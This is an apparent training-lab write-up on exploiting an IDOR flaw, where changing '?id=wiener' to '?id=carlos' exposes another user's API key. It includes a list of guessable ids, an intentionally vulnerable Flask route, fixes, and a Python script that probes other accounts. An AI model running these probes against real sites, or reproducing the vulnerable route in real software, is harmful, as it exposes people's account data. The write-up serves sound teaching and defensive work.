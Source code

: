 # User ID Controlled by Request Parameter

**Difficulty:** `APPRENTICE` | **Category:** `Access Control`

---

## 🎯 Lab Goal

Find the GUID for carlos and submit his API key as the solution.

---

## 📋 Lab Description

The lab has a horizontal privilege escalation vulnerability on the user account page. Despite mentioning GUIDs, the system still accepts predictable user identifiers.

---

## 🔎 Reconnaissance

### Initial Access

Logged in with provided credentials:

| Field | Value |
|-------|-------|
| Username | `wiener` |
| Password | `peter` |

### Account Page Analysis

Captured the login request in Burp Suite and observed:

```http
GET /my-account?id=wiener HTTP/1.1
```

🔍 **Interesting finding:** Despite the lab description mentioning GUIDs, the actual implementation uses simple username-based identifiers.

---

## 🧪 Testing & Exploitation

### Step 1: Identify IDOR Vulnerability

Original request structure:
```http
GET /my-account?id=wiener
```

The `id` parameter directly references the username without authorization checks.

### Step 2: Parameter Manipulation

Modified the request to access Carlos's account:

**Original:**
```http
GET /my-account?id=wiener
```

**Modified:**
```http
GET /my-account?id=carlos
```

### Step 3: Retrieve API Key

Replayed the modified request.

**Result:** Successfully accessed Carlos's account and extracted his API key! ✅

---

## 🚩 Solution

**Exploit Request:**
```http
GET /my-account?id=carlos
```

---

## 💡 Key Takeaways

### Security Through Obscurity Fails

- **Claiming to use GUIDs** doesn't mean they're actually implemented
- Always test the actual implementation, not just the documentation
- Developers sometimes plan security features but fail to implement them

### IDOR Variants

| Implementation | Security Level | Notes |
|---------------|---------------|-------|
| `?id=username` | ❌ Very Low | Easily guessable |
| `?id=123` | ❌ Low | Sequential enumeration |
| `?id=guid` | ⚠️ Medium | Harder but often leaked |
| `?id=signed_token` | ✅ High | Cryptographically secure |

### Common Testing Patterns

```bash
# Try simple usernames
?id=admin
?id=administrator
?id=carlos
?id=root

# Try common variations
?id=user1
?id=testuser
?id=guest

# Try different parameter names
?userid=carlos
?user=carlos
?username=carlos
```

---

## 🛡️ Remediation

### Secure Implementation

**❌ Bad (No Authorization):**
```python
@app.route('/my-account')
def my_account():
    user_id = request.args.get('id')
    user = User.query.filter_by(username=user_id).first()
    return jsonify({
        'username': user.username,
        'api_key': user.api_key
    })
```

**✅ Good (Session-Based):**
```python
@app.route('/my-account')
@login_required
def my_account():
    # Don't accept user input - use session
    user = User.query.get(session['user_id'])
    return jsonify({
        'username': user.username,
        'api_key': user.api_key
    })
```

**✅ Better (With Explicit Authorization):**
```python
@app.route('/my-account')
@login_required
def my_account():
    requested_id = request.args.get('id')
    current_user = session['username']
    
    # Verify user can only access their own data
    if requested_id != current_user:
        abort(403, "Unauthorized access")
    
    user = User.query.filter_by(username=current_user).first()
    return jsonify({
        'username': user.username,
        'api_key': user.api_key
    })
```

### Best Practices

- ✅ **Use session data** instead of user-supplied IDs
- ✅ **Validate ownership** before returning sensitive data
- ✅ **Implement proper authorization checks**
- ✅ **Use indirect references** when possible
- ✅ **Log unauthorized access attempts**
- ✅ **Rate limit** sensitive endpoints
- ✅ **Test actual implementation**, not assumptions

### Authorization Middleware Example

```python
def require_ownership(f):
    @wraps(f)
    def decorated_function(*args, **kwargs):
        requested_id = request.args.get('id')
        current_user = session.get('username')
        
        if requested_id != current_user:
            abort(403)
        
        return f(*args, **kwargs)
    return decorated_function

@app.route('/my-account')
@login_required
@require_ownership
def my_account():
    user = User.query.filter_by(username=session['username']).first()
    return jsonify(user.to_dict())
```

### Testing for IDOR

```python
# Automated IDOR testing script
import requests

session = requests.Session()
# Login as user1
session.post('/login', data={'username': 'user1', 'password': 'pass'})

# Try accessing other users
test_users = ['admin', 'carlos', 'user2', 'administrator']

for user in test_users:
    response = session.get(f'/my-account?id={user}')
    if response.status_code == 200:
        print(f"[VULN] Can access {user}'s account!")
        print(response.text)
```

---

**Status:** ✅ Solved
